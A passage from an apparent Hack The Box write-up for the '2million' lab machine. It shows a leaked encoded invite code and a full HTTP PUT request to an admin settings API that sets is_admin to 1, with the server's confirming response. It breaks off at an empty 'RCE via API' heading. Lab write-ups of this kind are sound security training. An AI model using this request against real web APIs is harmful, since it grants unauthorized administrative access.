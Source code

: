 ```
Content-Length: 91



{"0":200,"success":1,"data":{"code":"UTgxVk8tWVcwSzctRjNOUE8tS0xQM0g=","format":"encoded"}}
```
# Set user to admin via API

After logging into the website there was nothing of value. Further enumeration of the API revealed an admin endpoint. This endpoint required the PHPSESSID Cookie to be set. This cookie was given after registering and logging into the website.

Using this endpoint made it possible to upgrade a user to admin.

```
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://2million.htb/home/access
DNT: 1
Connection: close
Cookie: PHPSESSID=8c4gbnojk6ec2h69htfgqkjo5v
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 46

{
"email":"testuser@htb.com",
"is_admin":1
}
```
## Reponse - set user to admin
```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 25 Jun 2023 17:14:55 GMT
Content-Type: application/json
Connection: close
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 47

{
"id":13,"username":"testuser","is_admin":1
}
```
# RCE via API

